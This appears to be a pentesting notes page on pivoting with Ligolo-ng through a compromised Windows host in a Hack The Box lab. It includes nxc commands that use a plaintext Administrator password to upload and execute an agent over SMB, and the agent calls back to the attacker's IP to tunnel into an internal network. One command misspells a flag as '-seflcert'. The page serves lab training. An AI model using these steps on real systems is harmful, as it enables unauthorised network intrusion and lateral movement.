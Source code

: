 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Ligolo-ng

## Commands

### Basic Commands

{% tabs %}
{% tab title="1. Server tun if" %}
```bash
sudo ip tuntap add user kali mode tun ligolo && sudo ip link set ligolo up
```
{% endtab %}

{% tab title="2a. Proxy (no internet)" %}
```bash
proxy -seflcert
```
{% endtab %}

{% tab title="2b. Proxy (internet)" %}
```bash
proxy -autocert
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="3. Agent" %}
```bash
./agent -connect 10.129.204.146:11601
```
{% endtab %}

{% tab title="4. Add route" %}
```
sudo ip route add 172.16.10.0/24 dev ligolo
```
{% endtab %}

{% tab title="4. Session" %}
```bash
ligolo-ng » session
```
{% endtab %}

{% tab title="5. Tunnel" %}
```bash
[Agent : user@nworkstation] » start_tunnel --tun ligolo
```
{% endtab %}
{% endtabs %}

### Agent Transfer & Execution

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Usage

{% hint style="info" %}
The below network configuration is from the [Vulnerability Scan Modules](https://academy.hackthebox.com/module/84/section/822) section of the Hack The Box's [Using CrackMapExec](https://academy.hackthebox.com/module/details/84) module.
{% endhint %}

We have compromised a Windows pivot host with 2 NICs (Figure 1). Our goal is to be able to interact with the `172.16.10.0/24` network, which at the moment we cannot (Figure 2).&#x20;

<figure><img src="../../../.gitbook/assets/ligolo_ipconfig.png" alt=""><figcaption><p>Figure 1: The compromised pivot host has 2 NICs, one for the 172.16.10.0 and one for the 10.129.0.0 network.</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/ligolo_target_network_fail.png" alt=""><figcaption><p>Figure 2: Performing an unsuccessful live host discovery and ARP port scan on the target network. </p></figcaption></figure>

Create a tun interface on the Linux attack host (Figure 3).

<figure><img src="../../../.gitbook/assets/ligolo_tun_if.png" alt=""><figcaption><p>Figure 3: Setting up a tun intefrace.</p></figcaption></figure>

Start `proxy` on the Linux attack host (Figure 4). For pivot hosts with no internet connectivity a self-signed certificate need to be generated (`-selfcert`). Otherwise, use `-autocert` to request a proper certificate.

> _On a Windows attack host, we need to have the appropriate_ [_`wintun.dll`_](https://www.wintun.net/) _on the same folder._

<figure><img src="../../../.gitbook/assets/ligogo_proxy.png" alt=""><figcaption><p>Figure 4: Starting the proxy server on the attack host.</p></figcaption></figure>

Transfer and execute the `agent.exe` binary to the pivot host (Figure 5).

{% hint style="success" %}
**Admin access** on the target host **is** **NOT required**!
{% endhint %}

<figure><img src="../../../.gitbook/assets/ligolo_ng_agent_transfer_execute.png" alt=""><figcaption><p>Figure 5: Transferring and executing the agent on the pivot host.</p></figcaption></figure>

A connection should be received on the attack host (Figure 6).

<figure><img src="../../../.gitbook/assets/ligolo_proxy_received.png" alt=""><figcaption><p>Figure 6: Received a connection on thte attack host.</p></figcaption></figure>

Add an IP route for the target network (_ligogo device_) on the attack host (Figure 7).

<figure><img src="../../../.gitbook/assets/liogo_add_route.png" alt=""><figcaption><p>Figure 7: Adding an IP route for the target network.</p></figcaption></figure>

Choose the appropriate session and start the tunnel (Figure 8).

<figure><img src="../../../.gitbook/assets/ligolo_start_tunnel.png" alt=""><figcaption><p>Figure 8: Choosing the session and starting the tunnel.</p></figcaption></figure>

We can now interact from our attack host as if we were a part of the internal network (Figure 9).

<figure><img src="../../../.gitbook/assets/ligolo_live_host_disc_arp_port_scan.png" alt=""><figcaption><p>Figure 9: Performing a successful live host discovery and an ARP port scan on the target network.</p></figcaption></figure>

## Resources

{% tabs %}
{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Demonstration" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
